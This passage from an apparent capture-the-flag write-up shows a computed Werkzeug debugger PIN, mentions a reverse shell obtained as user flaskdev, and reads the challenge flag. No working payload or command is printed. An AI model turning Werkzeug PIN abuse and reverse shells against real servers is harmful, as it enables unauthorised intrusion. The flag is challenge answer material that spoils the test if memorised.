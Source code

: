 ```
# python3 werkzeug_pin.py 
Pin: 647-966-200
```

Then it works :

![](https://i.imgur.com/FATNgQQ.png)

We can just use the payload we transferred to the machine earlier to get a reverse shell as flaskdev

```
flaskdev@flask:/home/flaskdev$ id
uid=1000(flaskdev) gid=1000(flaskdev) groups=1000(flaskdev)
```

Then we can get the flag :
```
flaskdev@flask:/home/flaskdev$ ls -la
total 28
drwxr-xr-x 1 flaskdev flaskdev 4096 May 13 03:17 .
drwxr-xr-x 1 root     root     4096 May 13 03:16 ..
lrwxrwxrwx 1 root     root        9 May 13 03:16 .bash_history -> /dev/null
-rw-r--r-- 1 flaskdev flaskdev  220 May 13 03:16 .bash_logout
-rw-r--r-- 1 flaskdev flaskdev 3771 May 13 03:16 .bashrc
-rw-r--r-- 1 flaskdev flaskdev  807 May 13 03:16 .profile
-r-------- 1 flaskdev flaskdev   31 May 13 03:17 flag.txt
-rwxr-xr-x 1 root     root      219 May 12 10:16 reboot_flask.sh

flaskdev@flask:/home/flaskdev$ cat flag.txt 
Hero{n0t_s0_Urandom_4ft3r_4ll}
```